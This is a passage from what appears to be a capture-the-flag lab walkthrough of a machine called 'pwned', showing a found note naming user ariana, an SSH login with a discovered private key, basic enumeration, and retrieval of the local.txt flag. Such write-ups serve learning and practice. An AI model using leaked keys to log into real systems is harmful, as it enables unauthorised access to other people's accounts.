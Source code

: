 The note indicates a user, ariana:

```bash
$ cat note.txt

Wow you are here

ariana won't happy about this note

sorry ariana :(
```

Try out the ssh key with user ariana. It works:

```bash
$ ssh -i id_rsa ariana@192.168.171.95
The authenticity of host '192.168.171.95 (192.168.171.95)' can't be established.
ED25519 key fingerprint is SHA256:Eu7UdscPxuaxyzophLkeILniUaKCge0R96HjWhAmpyk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.95' (ED25519) to the list of known hosts.
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ariana@pwned:~$ whoami
ariana
ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
ariana@pwned:~$ hostname
pwned
ariana@pwned:~$ hostname -I
172.17.0.1 192.168.171.95
```

Grab `local.txt`:

```bash
ariana@pwned:~$ cat local.txt
16dec2568cc0787187642193664e1870
```

![3](screenshots/3.png)
